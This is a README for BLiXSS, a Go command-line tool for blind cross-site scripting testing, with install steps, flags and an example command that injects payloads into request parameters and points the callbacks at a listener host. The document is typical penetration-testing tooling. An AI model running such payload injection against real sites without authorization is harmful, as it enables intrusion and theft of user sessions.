 ## Blind XSS Tool (BLiXSS)

BLiXSS is a command-line tool designed for blind XSS (Cross-Site Scripting) testing. It crafts malicious payloads to inject into web application parameters, allowing you to detect potential vulnerabilities.

### Installation

Clone the repository:

```bash
git clone https://github.com/yourusername/blixss.git
```

Navigate to the `blixss` directory:

```bash
cd blixss
```

Build the executable:

```bash
go build blixss.go
```

### Usage

BLiXSS requires the following parameters:

- `-t`: Target URL (e.g., `http://example.com`)
- `-b`: Body strings with the parameters of the request (e.g., `"parameter1=XSS&parameter2=test2&parameter3=XSS"`)
- `-l`: URL to forward the requests to (e.g., `http://10.10.15.122:45000`)
- `-d`: Specifies a custom directory to make the GET request. If not specified, it will attach `/<<paramName>>` on the request.

Example usage:

```bash
./blixss -t "http://example.com" -b "parameter1=XSS&parameter2=test2&parameter3=XSS" -l "http://10.10.15.122:45000" -d "custom/request/directory"
```

Parameter values different from 'XSS' will not be tested.

### Disclaimer

This tool is for educational purposes only. Do not use it for any illegal activities. The developers are not responsible for any misuse or damage caused by BLiXSS.

### License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
